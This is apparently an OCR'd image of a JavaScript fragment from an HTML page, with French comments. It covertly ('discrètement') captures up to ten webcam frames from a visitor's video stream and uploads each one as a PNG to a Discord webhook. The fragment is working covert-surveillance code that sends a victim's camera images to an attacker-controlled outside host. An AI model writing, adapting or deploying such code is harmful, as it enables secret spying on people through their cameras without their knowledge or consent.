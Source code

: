 // Capture discrète et envoie
function captureAndSendPhoto() {
if (photoCount >= 10) return; // Arrête après 10 photos

// Capture l'image actuelle du flux vidéo
context.drawImage(video, 0, 0, canvas.width, canvas.height);
canvas.toBlob((blob) => {
const formData = new FormData();
formData.append("file", blob, `capture_${Date.now()}.png`); // Nom unique

fetch(DISCORD_WEBHOOK_URL, {
method: "POST",
body: formData
})
.then(() => {
console.log("Photo envoyée sur Discord");
photoCount++;
})
.catch(err => console.error("Erreur lors de l'envoi :", err));
}, 'image/png');
}
})
.catch((err) => {
console.error('Erreur d’accès à la caméra :', err);
});
});
</script>
</body>
</html>
